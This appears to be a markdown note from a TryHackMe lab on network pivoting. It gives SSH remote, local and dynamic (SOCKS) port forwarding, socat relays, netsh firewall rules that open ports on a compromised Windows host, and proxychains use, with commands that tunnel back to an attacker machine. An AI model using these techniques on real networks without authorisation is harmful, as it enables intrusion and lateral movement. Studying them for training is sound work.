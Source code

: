 # Port forwarding

## SSH tunnelling

SSH, as it already has built-in functionality to do port forwarding through a feature called SSH Tunneling. While 
SSH used to be a protocol associated with Linux systems, Windows now ships with the OpenSSH client by default, so 
you can expect to find it in many systems nowadays, independent of their operating system.

On Windows machines, most likely no SSH server will be available:

| ![Basic SSH tunnel](../../_static/images/tunnel.png) |
|:--:|
| Start a tunnel from the compromised machine, acting as an `ssh` client, to the attack machine, <br>which will act as an `ssh` server. |

Making a connection back to our attacker's machine, we will want to create a user in it without access to any 
console for tunnelling and set a password to use for creating the tunnels.

```text
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```

The SSH tunnel can be used to do either local or remote port forwarding.

### SSH remote port forwarding

Remote port forwarding is useful, for example, when having gained control over the 
2.2.2.2 Windows host (it does not need to be administrator access) and would like to use it as a pivot to access a 
port on a server to which we can not directly connect.

| ![Remote port forwarding](../../_static/images/tunnel2.png) |
|:--:|
| Take a reachable port from the SSH client (the compromised machine) and project it into a <br>remote ssh server (the attacker's machine). |

To forward port 3389 on the server back to our attacker's machine, on the compromised Windows host:

    C:\> ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N

This establishes an SSH session from 2.2.2.2 (Compromised host) to 1.1.1.1 (Attacker machine) using the `tunneluser` user.

Because the tunneluser is not allowed to run a shell on the attacker machine, we need to run the `ssh` command with 
the `-N` switch to prevent the client from requesting one, or the connection will exit immediately. The `-R` switch is 
used to request a remote port forward, and the syntax requires us first to indicate the port we will be opening at 
the `ssh` server (`3389`), followed by a colon and then the IP and port of the socket we will be forwarding 
(`3.3.3.3:3389`). Port numbers do not **need** to match.

When up and running, we can go to the attacker's machine and RDP into the forwarded port to reach the server:

    xfreerdp /v:127.0.0.1 /u:<username> /p:<password>

### SSH local port forwarding

Local port forwarding allows for "pulling" a port from an ssh server into the ssh client. Any host on the network 
that can not connect directly to the attacker machine but can connect to the compromised host will now be able to 
reach the services offered on the attack machine through the pivot host.

| ![local port forwarding](../../_static/images/tunnel3.png) |
|:--:|
| Take any service available in our attacker's machine and make it available through a port on the <br>compromised host. |

To forward port `80` from the attack machine and make it available from the compromised host, run:
           
    C:\> ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N

The `-L` option requires indicating which local socket used by the compromised host to receive connections on (`*:80`) 
and the remote socket to connect to from the attack machine perspective (`127.0.0.1:80`).

Opening a new port on the compromised host, add a firewall rule to allow for incoming connections (with `dir=in`). 
This requires administrative privileges:

    netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80

Up and running, any user pointing their browsers to the compromised host at `http://2.2.2.2:80` will see the website 
published by the attack machine.

## Port forwarding with socat

`socat` is not as flexible as `ssh`, and it is more noisy, but if `ssh` is not available on the compromised host, may 
be an option. It must be transferred to the compromised host first.

| ![Socat 3389](../../_static/images/tunnelsocat1.png) |
|:--:|
| Access port `3389` on the server using the compromised host as a pivot, with a similar <br>effect as SSH remote port forwarding. |

To access port `3389` on the server using the compromised host:

    C:\>socat TCP4-LISTEN:3389,fork TCP4:3.3.3.3:3389

The `fork` option forks a new process for each connection received, making multiple connections without closing possible.
Otherwise, it would be closed after the first connection finishes.

And because a port is being opened on the pivot host, create a firewall rule:

    netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389

| ![Socat 80](../../_static/images/tunnelsocat2.png) |
|:--:|
| The compromised host will spawn port `80` and listen for connections to be forwarded to port `80` on <br>the attack machine. |

To expose port `80` from the attack machine, making it reachable by the server:

    C:\>socat TCP4-LISTEN:80,fork TCP4:1.1.1.1:80


## Dynamic port forwarding and SOCKS

When wanting to run scans against many ports of a host, or even many ports across many machines through a pivot host, 
dynamic port forwarding seems a good choice. It allows for pivoting through a host and establishing several 
connections to any IP addresses/ports we want, by using a `SOCKS` proxy.

Establish a reverse dynamic port forwarding ssh tunnel on the compromised host:

    C:\> ssh tunneluser@1.1.1.1 -R 9050 -N

Edit the proxychains configuration on the attack machine:

    sudo nano /etc/proxychains4.conf

Go down to the `[ProxyList]` section and add your proxy connection. The default port is `9050`, but any port will 
work as long as it matches the one we used when establishing the SSH tunnel.

If we now want to execute any command through the proxy, we can use `proxychains`, for example:

    proxychains curl http://pxeboot.za.tryhackme.com

**Note: nmap might not work well with SOCKS in some circumstances**

## Flag

* Connect to THMJMP2 via SSH using the credentials from the first task.
* Connect via RDP to THMIIS using `socat`.
* Exploit vulnerable Rejetto HFS on the Domain Controller.

## Resources

* [0xBEN Notes and Cheatsheets: Port Forwarding](https://notes.benheater.com/books/network-pivoting/chapter/port-forwarding)
* [0xBEN Notes and Cheatsheets: Forward Dynamic SOCKS Proxy](https://notes.benheater.com/books/network-pivoting/page/ssh-port-forwarding#bkmrk-dynamic-port-forward)
* [0xBEN Notes and Cheatsheets: Reverse Dynamic SOCKS Proxy](https://notes.benheater.com/books/network-pivoting/page/ssh-port-forwarding#bkmrk-ssh-reverse-dynamic-)

